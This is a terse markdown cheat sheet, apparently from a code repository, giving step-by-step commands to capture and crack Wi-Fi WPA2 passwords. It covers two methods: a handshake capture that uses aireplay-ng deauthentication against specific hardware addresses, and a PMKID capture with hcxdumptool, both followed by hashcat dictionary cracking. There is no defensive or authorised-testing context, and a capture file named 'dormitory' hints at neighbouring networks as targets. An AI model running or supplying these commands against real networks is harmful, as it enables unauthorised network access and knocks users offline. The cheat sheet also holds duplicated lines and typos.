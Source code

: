 # Cap and Crack
## handshake
### prepare
`sudo airmon-ng check kill`
`sudo airmon-ng check kill`
`sudo airmon-ng check kill`
...
`iwconfig`
`airmon-ng start wlan0`
`iwconfig`

### scan
`sudo airodump-ng -w ~/mnt/hgfs/L/hashcat-5.0.0/dormitory wlan0mon`

### monitor
`sudo airodump-ng --bssid DC:EE:06:96:B7:B8 -c 6 -w sec wlan0mon`

### deauth
`sudo aireplay-ng -0 10 -a EC:26:CA:33:E1:B6 -c C0:EE:FB:E9:9D:7C wlan0mon`

### stop
`Ctrl+C`
`sudo airmon-ng stop wlan0mon`

### convert
`cap2hccapx input.pcap output.hccapx`

### crack
`-m 2500`

## PMKID
### prepare
* `sudo airmon-ng check kill`
* `sudo airmon-ng start wlx70f11c11576b`
* `sudo airodump-ng start wlan0mon` `Ctrl+C`
* `echo "FCD733E71B78" > apmac.txt`
* `sudo airmon-ng stop wlan0mon`
* set the interface to monitor mode manually:
     * `ip link set <interface> down`
     * `iw dev <interface> set monitor control`
     * `ip link set <interface> up`

### cap
`./hcxdumptool -o test.pcapng -i wlp39s0f3u4u5 --filterlist=apmac.txt --filtermode=2 --enable_status=3`
`./hcxdumptool -o test.pcapng -i wlp39s0f3u4u5 --enable_status=3`

### convert
`$ ./hcxpcaptool -z test.16800 test.pcapng`
`$ ./hcxpcaptool -E essidlist -I identitylist -U usernamelsit -z test.16800 test.pcang`
`echo 50555245204655524e4954555245 | xxd -r -p`
`whoismac -p 69d4ec91a19657d64d4ccc869c229bbe*9e3dcf272236*f0a225dab76d*53696c7665724d61676e6f6c6961`

### crack
`c:\Users\Adam\Downloads\hashcat-4.2.0>hashcat64.exe -m 16800 E4200-WPA2PSK.16800 -a 0 wordlist.txt`
